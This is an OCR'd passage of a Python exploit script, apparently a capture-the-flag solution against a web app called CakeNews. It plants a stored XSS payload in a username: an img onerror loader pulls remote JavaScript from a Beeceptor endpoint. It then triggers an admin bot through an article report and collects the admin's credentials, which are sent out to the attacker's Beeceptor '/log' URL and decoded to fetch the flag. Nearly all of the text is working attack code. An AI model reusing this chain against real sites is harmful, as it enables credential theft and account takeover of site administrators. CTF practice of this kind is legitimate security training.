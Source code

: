 ```python
    print("    2. Create a new mocking rule for GET /payload.js")
    print("    3. Paste the following into the response body:")
    print("-" * 74)
    print(js_payload)
    print("-" * 74)
    print("    4. Set the 'Content-Type' to 'application/javascript' and save.")
    input("[?] Press Enter when you have set up the Beeceptor rule...")
    print("\n[*] STEP 2: Registering a user with the XSS payload...")
    session = requests.Session()
    random_user = generate_random_string()
    js_loader = f"var s=document.createElement('script');s.src='{payload_url}';document.body.appendChild(s);"
    malicious_username = f"{random_user}'\"><img src=x onerror=\"{js_loader}\">"
    user_email = f"{random_user}@exploit.com"
    user_password = generate_random_string(12)
    register_payload = {"email": user_email, "username": malicious_username, "password": user_password, "password_confirmation": user_password}
    try:
        r = session.post(urljoin(cakenews_base_url, "/api/register"), json=register_payload, timeout=10)
        if r.status_code != 201:
            print(f"[-] Failed to register user: {r.text}")
            sys.exit(1)
        print(f"[+] Successfully registered malicious user '{user_email}'.")
    except requests.RequestException as e:
        print(f"[-] Error connecting to CakeNews: {e}")
        sys.exit(1)
    print("\n[*] STEP 3: Logging in and planting the payload...")
    login_payload = {"email": user_email, "password": user_password}
    try:
        r = session.post(urljoin(cakenews_base_url, "/api/login"), json=login_payload, timeout=10)
        token = r.json().get('token')
        auth_header = {'Authorization': f'Bearer {token}'}
        comment_payload = {"content": "Great article!"}
        r_comment = session.post(urljoin(cakenews_base_url, "/api/articles/1/comments"), json=comment_payload, headers=auth_header, timeout=10)
        if r_comment.status_code != 201:
            print(f"[-] Failed to post comment: {r_comment.text}")
            sys.exit(1)
        print("[+] Malicious comment posted successfully.")
    except (requests.RequestException, KeyError, json.JSONDecodeError) as e:
        print(f"[-] Error during login/comment phase: {e}")
        sys.exit(1)
    print("\n[*] STEP 4: Triggering the bots...")
    try:
        r_report = session.post(urljoin(cakenews_base_url, "/api/articles/1/report-journalist"), headers=auth_header, timeout=10)
        if r_report.status_code == 200:
            print("[+] Article reported. This will trigger the exploit chain.")
        else:
            print(f"[-] Failed to report article: {r_report.text}")
            sys.exit(1)
    except requests.RequestException as e:
        print(f"[-] Error reporting article: {e}")
        sys.exit(1)
    print("\n[*] STEP 5: Waiting for admin credentials...")
    print(f"    - Check your Beeceptor dashboard at https://beeceptor.com/console/{beeceptor_endpoint}")
    print("    - Wait for a request to '/log' with a 'creds' parameter.")
    b64_creds = input("\n[?] Paste the captured base64 credentials here: ").strip()
    print("\n[*] STEP 6: Decoding credentials and fetching the flag...")
    try:
        admin_creds = json.loads(base64.b64decode(b64_creds).decode('utf-8'))
```